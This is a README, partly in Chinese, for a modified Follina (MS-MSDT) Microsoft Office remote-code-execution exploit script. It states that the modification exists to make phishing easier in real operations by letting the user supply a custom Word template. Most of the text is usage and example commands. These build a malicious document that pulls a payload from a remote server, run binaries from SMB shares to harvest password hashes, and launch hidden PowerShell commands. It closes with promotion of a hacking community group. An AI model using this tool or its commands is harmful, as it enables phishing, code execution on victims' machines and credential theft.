

# 'Follina' MS-MSDT n-day Microsoft Office RCE—修改版

根据https://github.com/chvancooten/follina.py的项目进行修改，可以自定义指定docx模板文件，便于实战中钓鱼使用，自己编辑好钓鱼word文档后-f参数指定即可。

## Usage:

```
usage: follina.py [-h] -m {binary,command} [-b BINARY] [-f FILE] [-c COMMAND] [-u URL] [-H HOST] [-P PORT]

optional arguments:
  -h, --help            show this help message and exit

Required Arguments:
  -m {binary,command}, --mode {binary,command}
                        Execution mode, can be "binary" to load a (remote) binary, or "command" to run an encoded PS command

Binary Execution Arguments:
  -b BINARY, --binary BINARY
                        The full path of the binary to run. Can be local or remote from an SMB share

Docx file Arguments:
  -f FILE, --file FILE  The docx file

Command Execution Arguments:
  -c COMMAND, --command COMMAND
                        The encoded command to execute in "command" mode

Optional Arguments:
  -u URL, --url URL     The hostname or IP address where the generated document should retrieve your payload, defaults to "localhost"
  -H HOST, --host HOST  The interface for the web server to listen on, defaults to all interfaces (0.0.0.0)
  -P PORT, --port PORT  The port to run the HTTP server on, defaults to 80
```

## Examples:

```
默认docx muban.docx
# Execute a local binary
python .\follina.py -m binary -b \windows\system32\calc.exe
python .\follina.py -m binary -b \windows\system32\calc.exe -f muban2.docx

# On linux you may have to escape backslashes
python .\follina.py -m binary -b \\windows\\system32\\calc.exe

# Execute a binary from a file share (can be used to farm hashes 👀)
python .\follina.py -m binary -b \\localhost\c$\windows\system32\calc.exe

# Execute an arbitrary powershell command
python .\follina.py -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

# Run the web server on the default interface (all interfaces, 0.0.0.0), but tell the malicious document to retrieve it at http://1.2.3.4/exploit.html
python .\follina.py -m binary -b \windows\system32\calc.exe -u 1.2.3.4

# Only run the webserver on localhost, on port 8080 instead of 80
python .\follina.py -m binary -b \windows\system32\calc.exe -H 127.0.0.1 -P 8080
```




## 一起交流

感兴趣的可以关注 **Z2O安全攻防** 公众号回复“**加群**”，添加Z2OBot 小K自动拉你加入**Z2O安全攻防交流群**分享更多好东西。


团队建立了知识星球，不定时更新最新漏洞复现，手把手教你，同时不定时更新POC、内外网渗透测试骚操作。感兴趣的可以加一下。


**欢迎star:star: O(∩_∩)O**


